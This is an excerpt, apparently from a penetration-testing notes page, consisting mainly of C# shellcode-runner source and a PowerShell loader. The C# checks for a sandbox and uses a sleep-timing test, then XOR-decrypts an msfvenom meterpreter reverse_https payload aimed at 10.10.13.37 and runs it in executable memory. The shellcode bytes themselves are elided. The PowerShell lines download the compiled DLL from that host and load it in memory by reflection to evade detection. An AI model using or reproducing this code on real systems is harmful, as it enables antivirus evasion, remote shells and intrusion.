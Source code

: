 ```csharp
        static extern IntPtr GetCurrentProcess();

        public static void Run()
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
{% endcode %}

Compile to DLL and load with PowerShell from memory:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.13.37/ShellcodeRunner.dll')
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ShellcodeRunner.Program")
[$bindingFlags = [Reflection.BindingFlags] "NonPublic,Static"]
$method = $class.GetMethod("Run", [$bindingFlags])
$method.Invoke(0, $null)
Or
$a = [ShellcodeRunner.Program]::Run()
```
